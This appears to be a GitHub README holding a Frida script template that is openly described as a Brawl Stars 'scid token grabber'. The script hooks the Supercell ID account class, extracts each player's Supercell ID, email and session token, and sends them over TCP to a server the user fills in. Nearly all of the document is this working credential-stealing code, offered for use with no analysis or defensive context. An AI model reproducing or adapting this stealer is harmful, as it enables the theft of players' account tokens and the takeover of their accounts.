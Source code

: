 # Brawl-Stars-ScidToken
Just an easy scid token grabber for brawl stars that sent data to a TCP
// brawl stars scid token grabber template by Kxrimmmm
Java.perform(function () {
    var IdAccount = Java.use("com.supercell.id.scid_plugin.IdAccount");

    IdAccount.toString.overload().implementation = function () {
        var result = this.toString();
        var supercellId = this.supercellId.value;
        var email = this.email.value;
        var scidToken = this.scidToken.value;

        console.log(supercellId);
        console.log(email);
        console.log(scidToken);

        sendToTcpServer(supercellId, email, scidToken);

        return result;
    };

    // Function to send data over TCP
    function sendToTcpServer(supercellId, email, scidToken) {
        var Socket = Java.use("java.net.Socket");
        var InetAddress = Java.use("java.net.InetAddress");
        var OutputStream = Java.use("java.io.OutputStream");
        var BufferedWriter = Java.use("java.io.BufferedWriter");
        var OutputStreamWriter = Java.use("java.io.OutputStreamWriter");

        var serverAddress = "YOUR ADDRESS"; // Change this to your TCP server's address
        var serverPort YOUR PORT; // Change this to your TCP server's port

        // Create socket connection to the server
        var socket = Socket.$new(serverAddress, serverPort);
        var outputStream = socket.getOutputStream();
        var writer = BufferedWriter.$new(OutputStreamWriter.$new(outputStream, "UTF-8"));

        // Create the message to be sent
        var message = "Supercell ID: " + supercellId + "\nEmail: " + email + "\nToken: " + scidToken;

        // Send the message to the server
        writer.write(message);
        writer.flush();
        writer.close();
        outputStream.close();
        socket.close();

        console.log("Data sent to TCP server");
    }
}); 
